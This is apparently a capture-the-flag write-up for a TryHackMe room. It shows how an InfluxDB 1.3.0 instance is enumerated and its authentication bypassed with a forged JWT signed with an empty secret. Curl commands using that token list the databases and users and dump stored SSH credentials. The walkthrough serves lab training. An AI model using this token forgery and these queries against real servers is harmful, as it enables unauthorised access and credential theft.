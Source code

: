 # Sweettooth inc.

![image](https://user-images.githubusercontent.com/5285547/126913536-e9fa3f39-06fa-4a83-aaab-250e553042c8.png)
Link: https://tryhackme.com/room/sweettoothinc

## Desc


## Nmap

```
PORT     STATE SERVICE VERSION
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34479/tcp6  status
|   100024  1          40714/udp   status
|   100024  1          46300/tcp   status
|_  100024  1          49237/udp6  status
2222/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
|_  256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)
8086/tcp open  http    InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

Enumeration gave up some credentials  
http://10.10.219.78:8086/debug/requests

![image](https://user-images.githubusercontent.com/5285547/126914960-41ce25e3-5324-43da-b78b-e4c14de0d037.png)

creds
```
o5yY6yya:127.0.0.1
```

## Directory brute

```
gobuster dir -u http://10.10.219.78:8086/  -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 30 

/status               (Status: 204) [Size: 0]
/query                (Status: 401) [Size: 55]
/ping                 (Status: 204) [Size: 0] 
/write                (Status: 405) [Size: 19]
```
Looking this up online I came across some documentation for the API:  
https://docs.influxdata.com/influxdb/v1.3/tools/api/#write

![image](https://user-images.githubusercontent.com/5285547/126915118-8b5be70b-b0a7-4a72-be93-333aa3915a6a.png)

The same things we see. Let's try some of the commands and explore the API

```
curl http://10.10.219.78:8086/ping -v -X HEAD

*resp
< HTTP/1.1 204 No Content
< Content-Type: application/json
< Request-Id: 0cf9d36b-ed96-11eb-822a-000000000000
< X-Influxdb-Version: 1.3.0

# Influxdb-Version: 1.3.0
```

## JWT

```
GET /query HTTP/1.1
Host: 10.10.219.78:8086
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzaGFyZWRfc2VjcmV0IjoiIn0._FqCTRoFRDIK9srW-ml6Btqp5ItmIfwC7vLyiG8PqzQ
User-Agent: curl/7.74.0
Accept: */*
Connection: close
```

response
```
HTTP/1.1 401 Unauthorized
Content-Type: application/json
Request-Id: c226eacd-ed9c-11eb-9104-000000000000
Www-Authenticate: Basic realm="InfluxDB"
X-Influxdb-Version: 1.3.0
Date: Sun, 25 Jul 2021 23:05:09 GMT
Content-Length: 33
Connection: close

{"error":"signature is invalid"}

```

I found this article that helped me make a payload.  
https://www.komodosec.com/post/when-all-else-fails-find-a-0-day

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E
```

![image](https://user-images.githubusercontent.com/5285547/127043648-fd68da50-ed08-417e-8793-ee5220a4e3c9.png)

```
curl http://10.10.27.198:8086/query -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E"

{"error":"missing required parameter \"q\""}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=mydb&pretty=true"  --data-urlencode 'q=SHOW DATABASES'

{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["creds"],["docker"],["tanks"],["mixer"],["_internal"]]}]}]}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" http://10.10.27.198:8086/query?db=mydb  --data-urlencode 'q=SHOW USERS'      

{"results":[{"statement_id":0,"series":[{"columns":["user","admin"],"values":[["o5yY6yya",true]]}]}]}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW MEASUREMENTS"
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "measurements",
                    "columns": [
                        "name"
                    ],
                    "values": [
                        [
                            "ssh"
                        ]
                    ]
                }
            ]
        }
    ]
}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SELECT * FROM ssh"                                                  
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "ssh",
                    "columns": [
                        "time",
                        "pw",
                        "user"
                    ],
                    "values": [
                        [
                            "2021-05-16T12:00:00Z",
                            7788764472,
                            "uzJk6Ry98d8C"
                        ]
                    ]
                }
            ]
        }
    ]
}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES"            
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "columns": [
                        "key"
                    ],
                    "values": [
                        [
                            "ssh,user=uzJk6Ry98d8C"
                        ]
                    ]
                }
            ]
        }
    ]
}
```

![image](https://user-images.githubusercontent.com/5285547/127047744-f0f9841a-e861-4d71-9b32-192249e74623.png)


```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON _internal"

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON mixer"

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON tanks" 

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON docker"
```
